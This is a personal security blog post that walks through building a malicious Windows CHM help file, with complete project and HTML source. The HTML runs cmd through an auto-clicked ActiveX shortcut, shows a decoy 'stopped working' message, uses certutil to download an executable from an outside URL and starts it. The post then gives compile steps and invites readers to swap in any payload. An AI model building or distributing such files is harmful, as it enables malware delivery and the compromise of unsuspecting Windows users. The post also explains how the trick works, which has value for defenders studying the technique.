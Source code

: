 ```yaml
---
title: "Malicious CHM (Help) file"
date: "2019-12-07"
layout: single
tags:
- Malicious
categories:
- Blog-post
---
```



Hey everyone. May have a nice day! So today I'm gonna explain how a help (.chm) file could be a malicious file in Windows machine.

First, we need to clarify what is .chm file and what its function.

Based on this [website](https://whatis.techtarget.com/fileformat/CHM-Compiled-HTML-file),

CHM is an extension for the Compiled HTML file format, most commonly used by Microsoft’s HTML-based help program. It may contain many compressed HTML documents and the images and JavaScript they link to. CHM features include a table of contents, index, and full text searching.

So, basically user will click this file to see program's manual, details and so on in windows. But, nowadays... only a few amount of people read (click) this CHM file . So, this malicious chm or attack may not cool enough to be a malicious file because of less uses in wild attacks nowadays hahaha.

Example of CHM file
![enter image description here](http://www.create-chm.com/content/pages/about-chm/images/chm-file-viewer.png)

So, how can this .chm file format can be malicious or how to make it malicious that can download file / execute  code?

Here a write-up on how to make a malicious "help documentation" (chm).

## Let's go!

To build a CHM file, first you need an HTML help project (.hhp) file which is a text configuration file.

Here is an example of .hhp file:
```
[OPTIONS]
Compatibility=1.1 or later
Compiled file=malicious.chm
Default topic=malicious.htm
Display compile progress=No
Language=0x410 Italian (Italy)

[FILES]
malicious.htm

[INFOTYPES]
``` 
Save it as `malicous.hhp`.

Next, create `.htm` file for our HTML source where this file will be our weapon to execute code.
I named it as `malicious.htm`.

Here is the content of the `malicious.htm` file:
```
<html>
<title> Malicious CHM </title>
<head>
</head>
<body>

<h2 align=center> Malicious CHM </h2>
<p>
<h3 align=center> This is a malicious CHM file </h3>
</p>
</body>
</html>

<OBJECT id=shortcut classid="clsid:52a2aaae-085d-4187-97ea-8c30db990436" width=1 height=1>
<PARAM name="Command" value="ShortCut">
<PARAM name="Button" value="Bitmap:shortcut">
<PARAM name="Item1" value=",cmd,/c echo HTML Help Executable may be stopped working... & echo Process is running, please don't close this... & certutil.exe -urlcache -split -f https://github.com/fareedfauzi/Testing/raw/master/malicious.exe c:\mal.exe & start c:\mal.exe">
<PARAM name="Item2" value="273,1,1">

</OBJECT>
<SCRIPT>
shortcut.Click();
</SCRIPT>
```

Ok now I'm gonna explain the execution code.

The execution code will happen in this line. Note here that, you can replace the execution code with your own desired. :)
```
<PARAM name="Item1" value=",cmd,/c echo HTML Help Executable may be stopped working... & echo Process is running, please don't close this... & certutil.exe -urlcache -split -f https://github.com/fareedfauzi/Testing/raw/master/malicious.exe c:\mal.exe & start c:\mal.exe">
```
The next line meaning that I tell the command prompt to print these words to user because the next command "`certutil.exe`" require some seconds to do its job. 

    echo HTML Help Executable may be stopped working... & echo Process is running, please don't close this...
    
The next line is "`certutil.exe`" command. Certutil.exe is a Windows binary used for handling certificates and also can work as our downloader agent to download our malicious binary. Refer [this](https://lolbas-project.github.io/lolbas/Binaries/Certutil/) for more detail about the binary.

```
certutil.exe -urlcache -split -f https://github.com/fareedfauzi/Testing/raw/master/malicious.exe c:\mal.exe
```
Because cerutil.exe takes some times to download our binary, the process execution will be slow too. This make our chm file will display "HTML Help Executable stopped working". If you replaced this code to make an only execution without downloading, CHM will work perfectly without prompting "stopped working" msgbox.

And last line is..
```
& start c:\mal.exe
```
Its function is too execute our malicious binary. 

You can replace the execution code with anything you want include execution of batch file, powershell and so forth (follow your creativity and target).

Now we have these files on our machine. So, the next step is to compile this file to generate our chm file.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciouschm/maliciouschm2.PNG){: .align-center}

To generate the CHM file. You can do this using "HTML Help Workshop". 
Download at Official Microsoft website [here](https://www.microsoft.com/en-my/download/details.aspx?id=21138).

Open HTML Help Workshop ---> Go to `File` ---> Click `compile` ---> Choose our `.hhp` file. ---> HTML Help Workshop will compile for us and give us the malicious chm file.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciouschm/maliciouschm11.PNG){: .align-center}

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciouschm/maliciouschm3.PNG){: .align-center}

Now double click on your help file to check it worked!

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciouschm/maliciouschm4.PNG){: .align-center}

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciouschm/maliciouschm5.PNG){: .align-center}

Now, our code is successfully execute. It download our binary and then start our malicious binary.




So, from here you can get a big picture on how chm file could be another hackers weapon to execute their code.

Orite, goodbye! (and Assalamualaikum)
